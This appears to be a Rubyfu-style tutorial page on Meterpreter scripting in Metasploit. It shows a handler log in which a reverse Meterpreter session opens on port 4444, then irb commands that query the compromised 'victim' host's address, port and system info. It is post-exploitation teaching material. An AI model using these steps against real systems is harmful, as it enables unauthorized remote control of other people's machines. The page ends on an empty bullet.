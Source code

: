# Meterpreter Scripting

From the official [wiki][1], The Meterpreter is an advanced payload that has been part of Metasploit since 2004. Originally written by Matt "skape" Miller, dozens of contributors have provided additional code, and the payload continues to be frequently updated as part of Metasploit development.

Meterpreter is a payload framework that provides APIs to interact with by writing scripts and plugins that increase its capabilities. You can find meterpreter scripts in `metasploit-framework/scripts/meterpreter` those scripts that you use in post exploitation using **run** (eg. getuid, getsystem, migrate, scraper, etc). Meterpreter source code is located in `metasploit-framework/lib/rex/post/meterpreter`.

Actually, you can't imagine the power of Meterpreter until you read its [wishlist and features][2] not just use it.


To get started, let's to get a Meterpreter shell on a victim machine to start practicing it inline then we can write some scripts 

Once you get the meterpreter shell type `irb` to be dropped into ruby's irb. Most of required modules will be loaded already. Then type `require 'irb/completion'` to support auto-completion for the irb console, just like the follows

```
msf exploit(handler) > run

[*] Started reverse handler on 192.168.0.18:4444 
[*] Starting the payload handler...
[*] Sending stage (957486 bytes) to 192.168.0.18
[*] Meterpreter session 1 opened (192.168.0.18:4444 -> 192.168.0.18:33603) at 2015-11-22 06:33:00 +0300

meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client

>> require 'irb/completion'
=> true
```
As you can see you've been dropped to the irb with an instance variable called `client` of the running meterpreter.

Try this as a start 
```ruby
print_good("Rubyfu!")
```
- To list all associated methods with `client` instance

This will return an array. 

```ruby
puts client.methods
```
Let's to check some of the interesting methods there.

- Victim's IP address and port

```ruby
client.session_host
client.session_port
```

- Victim's computer information 

```ruby
client.info
```

Returns
```
=> "win7-64-victim\\Workshop @ WIN7-64-VICTIM"

```

- 
































<br><br><br>
---
[1]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter
[2]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Wishlist